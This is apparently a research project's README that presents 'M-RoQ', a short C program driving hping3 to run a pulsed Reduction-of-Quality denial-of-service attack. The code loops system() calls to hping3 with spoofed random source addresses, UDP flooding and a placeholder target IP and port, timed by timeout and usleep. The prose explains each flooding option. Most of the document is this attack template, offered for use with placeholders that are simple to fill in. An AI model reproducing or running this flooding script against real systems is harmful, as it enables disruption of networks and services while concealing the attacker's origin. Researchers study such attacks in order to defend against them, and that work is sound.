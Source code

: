 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h> <br>
#include <string.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>

main()
{
	while(<time in seconds>)
	{
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");
		usleep(<time in miliseconds>);
        time in seconds++;
	}
    system("killall -9 hping3");
}

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.

Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process. 

Authors:
Vinícius de Miranda Rios
Pedro R. M. Inácio 
Damien Magoni
Mário M. Freire
